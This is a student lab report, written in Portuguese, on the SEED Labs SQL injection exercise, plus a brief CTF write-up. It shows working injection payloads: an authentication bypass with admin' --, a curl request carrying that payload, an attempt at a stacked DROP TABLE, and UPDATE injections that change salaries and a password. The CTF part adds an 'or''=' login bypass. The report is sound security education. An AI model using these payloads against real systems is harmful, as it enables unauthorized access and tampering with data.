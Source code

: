 # SEED Labs - SQL Injection

## Setup

Inicialmente adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executando de seguida os containers fornecidos no lab e abrindo uma shell com acesso direto à base de dados. Utilizamos os seguintes comandos.

`sudo nano etc/hosts`

Em seguida colocamos no final do ficheiro:

`10.9.0.5 www.seed-server.com`

`dcbuild`:docker-compose build

`dcup`:docker-compose up

## Task 1

Começamos por correr o comando  `docker exec -it mysql-10.9.0.6 bash`, para abrir uma shell no container do MySQL. Em seguida usamos `mysql -u root -pdees` para login na base de dados. Para mostrar todas as tabelas dentro da mesma, usamos os seguintes comandos

```sql
use sqllab_users;
show tables;
```

Finalmente para obtermos os dados da Alice corremos `SELECT * FROM credential WHERE name='Alice'`

Resultando em:
![](docs/images/task1.png)

## Task 2

### Task 2.1

Dado o trecho de código no ficheiro `unsafe_home.php`, a vulnerabilidade reside no facto de que as variáveis `input_uname` e `hashed_pwd` serem inseridas diretamente na query sem a devida higienização. 

Uma vez que sabemos que o username da conta do administrador é "admin", conseguimos explorar a vulnerabilidade de SQL Injection introduzindo `admin' --` no input do username:

    username: admin' --
    password: (qualquer coisa ou deixar em branco)

O `--` efetivamente transforma o resto da query num comentário, ignorando a verificação da palavra-passe.

Resultando em:
![](docs/image/task2.1.png)

### Task 2.2

Para realizar o mesmo ataque de SQL Injection mas na CLI usamos o comando:

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password='

```

### Task 2.3

Para adicionar uma nova instrução normalmente usariamos um ponto e vírgula ;. No entanto, isto é prevenido como medida de segurança da extensão de PHP _mysqli_, para evitar a execução de múltiplas instruções numa só consulta.

Exemplo de uma tentativa que foi bloqueada por esta contramedida:

    Utilizador: admin'; DROP TABLE credential; --
    Palavra-passe: (qualquer coisa ou deixar em branco)

![](docs/images/task2.3.png)

### Task 3

### Tarefa 3.1
Na página de edição de perfil, inserimos uma injeção SQL no campo `nickname`(mas podia ser qualquer um) usando o comando `', salary=12345678 WHERE name='Alice'; #`.

### Tarefa 3.2
Decidindo punir o nosso chefe utilizámos a página de edição de perfil para reduzir o salário dele, mas desta vez com o comando `', salary = '860' WHERE name='Boby'; #`.

### Tarefa 3.3
Para alterar a password do Boby usámos comando `', password=sha1('construtor') WHERE name='Boby'; #`.

Resultado:
![](docs/images/task3.png)


# CTF Semana #8 (SQL Injection)

Começamos por analizar o ficheiro PHP(index.php) para tentar perceber como as queries SQL são formadas a partir do input do utilizador.

Tentámos de seguida os ataques mais comuns a nível de SQL injection.
Primeiro tentamos "or""=" mas não resultou. Tentámos 'or''=' e assim conseguimos obter acesso de admistrador obtendo assim a flag.

